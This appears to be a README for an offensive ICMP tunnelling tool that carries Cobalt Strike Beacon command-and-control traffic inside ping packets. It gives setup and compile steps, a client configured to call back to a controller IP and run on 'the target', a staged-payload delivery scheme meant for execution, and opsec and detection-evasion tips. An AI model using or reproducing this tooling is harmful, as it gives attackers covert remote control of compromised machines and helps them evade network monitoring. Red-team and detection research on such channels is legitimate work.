 # ICMP C2 Protocol Overview


## Key Concepts

- **ICMP Echo Request (Type 8)**: Used by the client (“agent”) to signal the server (“controller”) and request data.
- **ICMP Echo Reply (Type 0)**: Used by the controller to embed and send replies (including large payloads) back to the client.
- **TAG (4 bytes)**: A fixed 4‐byte marker (e.g. `RQ47`) prepended to every ICMP payload, so that unrelated OS pings or network noise are ignored.
- **ICMP_PAYLOAD_SIZE (default 1000 bytes)**: Defines how many bytes we can carry in each ICMP packet’s data‐field. In both `controller.py` and `client_x86.c`, this is set to 1000 by default.  
    > Opsec: Windows default payload size is 32 bytes, where UNIX is 52. 
- **Chunking**: When the controller needs to send more data than fits in a single ICMP payload (1000 bytes), it splits the payload into fragments of up to **996** bytes each (ICMP_PAYLOAD_SIZE – TAG_SIZE = 1000 – 4). Each fragment still carries the same 4‐byte tag.

---

# Setup:

1. **Install dependencies:**

   ```bash
   sudo apt install libpcap0.8-dev
   ```

   ```bash
   pip install -r Controller/Python/requirements.txt
   ```

2. **Start an External C2 beacon in Cobalt Strike (TeamServer).**

3. **Edit the following fields in these files to fit your enviornment:**

   - **`Controller/Python/controller.py`:**
     ```python
     TEAMSERVER_IP   = "10.10.10.21"  # Change to your TeamServer’s IP (e.g. 127.0.0.1 if running locally)
     TEAMSERVER_PORT = 2222          # Change to TeamServer’s listening port
     # (These must stay in sync with how your Beacon is configured.)
     ICMP_TAG = "RQ47"              # The ICMP tag, MUST match client

     BEACON_PIPENAME = "foobar"     # Name of pipe to communicate over between the Beacon & Client
     BEACON_ARCH = "x86"            # what architecture is the client - used for payload generation
     ```
   - **`client_x86.c`:**
     ```c
     #define ICMP_CALLBACK_SERVER "172.19.241.197"  // Change to your Controller’s IP
     #define ICMP_PAYLOAD_SIZE      1000           // Must match controller.py‘s ICMP_PAYLOAD_SIZE
     #define ICMP_TAG               "RQ47"         // 4‐byte tag (can be changed, but must match controller)
     #define PIPENAME               "\\\\.\\pipe\\foobar"  // Named pipe as configured by the Controller’s pipename
     ```

   There are other tunable constants in both files (e.g. `SLEEP_TIME` in the client, `PIPENAME`, etc.). Review each file’s top‐section comments for details.

4. **Compile the client (Windows build target):**

   ```bash
   i686-w64-mingw32-gcc client_x86.c -o client_x86.exe -lws2_32
   ```
   > You may also try a 64-bit MinGW compile (`x86_64-w64-mingw32-gcc ...`) but only the 32-bit build has been fully tested.

5. **Run the controller:**

   ```bash
   python3 Controller/Python/controller.py
   ```

6. **Run the compiled client on the target:**

   ```bash
   client_x86.exe
   ```

---

## Overall Flow

1. **Client: “Seq 0” Size Request**  
   - The client opens a raw ICMP socket.  
   - It builds an ICMP Echo Request (Type 8) whose payload is:
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_expected]
     ```
     and sends it with **sequence number 0**.  
   - Purpose: inform the controller how many bytes of data it plans to receive.

2. **Controller: Immediate “Seq 0” Reply (Size Confirmation)**  
   - The controller’s sniffer sees an ICMP packet where:
     - Type == 8 (Echo Request)  
     - Payload starts with `TAG`  
     - Sequence == 0  
   - It extracts the 4-byte length, allocates a receive buffer of that size, and immediately responds with an ICMP Echo Reply (Type 0), also with **sequence 0**. Its payload is:
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_to_send]
     ```
   - This confirms to the client that the server is ready to send exactly that many bytes.

3. **Controller: Sending Data Fragments (Seq 1…N)**  
   - If the data to send exceeds **1000 bytes**, the controller splits it into fragments of up to **996** bytes each (ICMP_PAYLOAD_SIZE – TAG_SIZE).  
   - For each fragment **i** (starting at 1), the controller sends an ICMP Echo Reply (Type 0) with:
     ```text
     Sequence = i
     Payload  = [TAG][next 996 bytes of data]
     ```
   - If the full payload fits within one chunk (≤ 996 bytes of data), only **seq 1** is used. Otherwise, multiple replies arrive in sequence.

4. **Client: Reassembly Loop**  
   - After sending “seq 0” and waiting, the client’s raw socket filters incoming packets, accepting only:
     - ICMP packets of Type 0 (Echo Reply)  
     - Matching its own process ID  
     - Payload beginning with `TAG`  
   - When **seq 0** arrives, the client reads the 4-byte length, allocates a buffer, and computes how many fragments it expects:
     ```
     data_per_chunk = ICMP_PAYLOAD_SIZE – TAG_SIZE  # = 1000 – 4 = 996
     total_chunks   = ceil(total_size / 996)
     ```
   - For each subsequent reply **seq = 1…total_chunks**, the client copies the data portion (i.e., the bytes after the 4-byte TAG) into the correct offset in the buffer. Once all fragments are received, the full payload is ready for execution or further processing.

5. **Beaconing & TeamServer Forwarding (Seq > 0)**  
   - After the initial C2 payload, the client may send extra frames (e.g., Beacon or task data). Each of these is sent as an ICMP Echo Request (Type 8) with:
     ```
     Sequence = X (> 0)
     Payload  = [TAG][user_data…]
     ```
   - The controller, upon spotting **seq > 0**, strips `TAG` and forwards the remaining bytes to the TeamServer over a TCP socket.  
   - Any response from the TeamServer is sent back in a single ICMP Echo Reply (Type 0) with:
     ```
     Sequence = X
     Payload  = [TAG][TeamServer_response]
     ```
   - This ensures a 1:1 mapping of in‐flight Beacon frames to replies, using the same sequence number to correlate.

---

## Packet Structure Summary

> **Constants** (both sides):
> ```text
> ICMP_PAYLOAD_SIZE = 1000      # bytes available for data+TAG
> TAG_SIZE          = 4         # bytes (e.g. “RQ47”)
> MAX_DATA_PER_CHUNK = 1000 – 4 = 996  # actual data per chunk
> ```
>
> **Note**: The 4-byte TAG is always the first 4 bytes of every payload, so each chunk’s data is at most 996 bytes.

- **Client → Controller (Seq 0)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=8, Code=0, ID=<PID>, Seq=0)
        └─ Payload   : 1000 bytes total
              [ “RQ47” ][ 4-byte total_size ][ padding… (up to 992 bytes) ]
  ```

- **Controller → Client (Seq 0 Reply)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=0)
        └─ Payload   : 1000 bytes total
              [ “RQ47” ][ 4-byte total_size ][ padding… (up to 992 bytes) ]
  ```

- **Controller → Client (Seq i Reply)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ up to 996 bytes of data ]
  ```

- **Client → Controller (Seq i Request, after C2 payload)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=8, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ up to 996 bytes of Beacon/command data ]
  ```

- **Controller → Client (Seq i Reply, TeamServer data)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ TeamServer response data ]
  ```

---

<!-- ## Advantages & Caveats

- **Quietness**: Leverages legitimate ICMP traffic.
- **Minimal Dependencies**: Only raw sockets (client) and basic Scapy (controller) are needed.
- **Fragility**: No built-in session encryption or integrity checks—relying solely on the 4-byte TAG for filtering.
- **IDS/Firewall Risk**: Large or unusual ICMP payloads may trigger alerts. We chunk at 996 bytes to avoid IP‐level fragmentation, but the TAG may still look suspicious.

---

## Usage Notes

1. **Client setup**: Must run as an administrator (Windows) to open a raw ICMP socket, or as root (Linux) if you port the code there.
2. **Controller setup**: Needs elevated privileges to sniff/send raw ICMP (via Scapy).
3. **Tag matching**: Both sides ignore any ICMP not starting with `RQ47`. This prevents OS‐generated pings from disrupting the reassembly logic.
4. **Timeouts**: The client’s `recv_icmp_fragments()` has no explicit timeout per‐packet, so if fragments never arrive, it will block indefinitely. You may want to add a `setsockopt(..., SO_RCVTIMEO, ...)` or similar.
5. **TeamServer traffic**: After the initial C2 payload is delivered, any “seq > 0” ICMP Echo Requests are forwarded to the TeamServer over a plain TCP connection; replies come back in Echo Replies.
 -->

